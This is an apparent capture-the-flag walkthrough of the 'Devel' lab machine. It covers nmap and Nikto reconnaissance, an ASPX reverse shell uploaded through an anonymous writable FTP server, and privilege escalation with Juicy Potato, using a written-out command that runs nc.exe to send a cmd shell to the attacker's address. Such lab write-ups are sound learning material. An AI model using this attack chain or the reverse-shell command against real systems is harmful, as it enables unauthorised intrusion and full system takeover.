

# Recon

I do my initial scan to see which ports are open.
## nmap

```
# Nmap 7.92 scan initiated Tue Jul 26 17:31:18 2022 as: nmap -p- -oA first/scan --min-rate 5000 --max-retries 3 --stylesheet https://raw.githubusercontent.com/honze-net/nmap-bootstrap-xsl/master/nmap-bootstrap.xsl -vv devel.htb
Nmap scan report for devel.htb (10.129.76.240)
Host is up, received echo-reply ttl 127 (0.15s latency).
Scanned at 2022-07-26 17:31:18 CDT for 27s
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 127
80/tcp open  http    syn-ack ttl 127

Read data files from: /usr/bin/../share/nmap
# Nmap done at Tue Jul 26 17:31:45 2022 -- 1 IP address (1 host up) scanned in 26.81 seconds
```

Then run `nmap` again with default scripts (`-sC`) and service discovery (`-sV`) on the ports that were found from the first scan.

```
# Nmap 7.92 scan initiated Tue Jul 26 17:32:22 2022 as: nmap -oA main/scan -sV -sC --min-rate 5000 --max-retries 3 --stylesheet https://raw.githubusercontent.com/honze-net/nmap-bootstrap-xsl/master/nmap-bootstrap.xsl -vv -p 21,80 devel.htb
Nmap scan report for devel.htb (10.129.76.240)
Host is up, received echo-reply ttl 127 (0.051s latency).
Scanned at 2022-07-26 17:32:23 CDT for 7s

PORT   STATE SERVICE REASON          VERSION
21/tcp open  ftp     syn-ack ttl 127 Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    syn-ack ttl 127 Microsoft IIS httpd 7.5
|_http-title: IIS7
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jul 26 17:32:30 2022 -- 1 IP address (1 host up) scanned in 8.60 seconds
```

I also ran a UDP scan, vuln scan and fuzzed for subdomains but didn't get anything back, so it looks like we are working with Microsoft IIS 7.5 on port 80 and then Microsoft ftpd on port 21. 

# Enumeration

## Nikto
#### Port 80
Not much from Nikto, other than it saying this looks like a default install of IIS.
```
- Nikto v2.1.6/2.1.5
+ Target Host: devel.htb
+ Target Port: 80
+ GET Retrieved x-powered-by header: ASP.NET
+ GET The anti-clickjacking X-Frame-Options header is not present.
+ GET The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ GET The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ GET Retrieved x-aspnet-version header: 2.0.50727
+ OPTIONS Allowed HTTP Methods: OPTIONS, TRACE, GET, HEAD, POST 
+ OPTIONS Public HTTP Methods: OPTIONS, TRACE, GET, HEAD, POST 
+ GET /: Appears to be a default IIS 7 install.
```

## Port 21

From our nmap scans, we know that anonymous ftp logins are allowed, so let's just do that...


After enumerating all files on the ftp server, we find that there is nothing helpful. My next test would be to see if we can write files to the ftp server.

I create `test.txt` with `echo "test" > test.txt`, and upload it to the ftp server using `put test.txt`


Then try to access it on the web server.


Interesting! Maybe we can upload a reverse shell of some sort? I search Google for "reverse shell asp net" and come across this shell:
https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx

I modify the script by setting vars `host` and `port`, followed by uploading this to the ftp server, set up a listener, and fetching the file like before.


We got a shell back as the IIS service account. Service accounts on Windows systems generally have `SeImpersonatePrivilege` enabled by default. Checking our priviliges with `whoami /priv` indeed returns  `SeImpersonatePrivilege`  as "Enabled". 

This is great because we can use Juicy Potato to try and escalate our privileges:
https://github.com/ohpe/juicy-potato/releases/tag/v0.1

With me being unfamiliar with Juicy Potato, I searched around and came across this helpful article:
https://medium.com/r3d-buck3t/impersonating-privileges-with-juicy-potato-e5896b20d505

Now armed with this knowledge, we can drop the binaries for Netcat and Juicy Potato to the victim machine using Powershell.  


I first tried running Juicy Potato without the `-c` flag so that it uses the default CLSID but didn't have any luck.


So, I ended up using a different CLSID (although still BITS LocalService) which I found from the original repo here:
https://github.com/decoder-it/juicy-potato/tree/master/CLSID/Windows_7_Enterprise

I now run the following command with my listener running.

`j86.exe -l 6666 -t * -p c:\Windows\System32\cmd.exe -a "/c c:\Windows\Temp\nc.exe -e cmd.exe 10.10.14.95 7331" -c "{03ca98d6-ff5d-49b8-abc6-03dd84127020}"`


Winner winner chicken dinner, things work and we collect our loot! :)

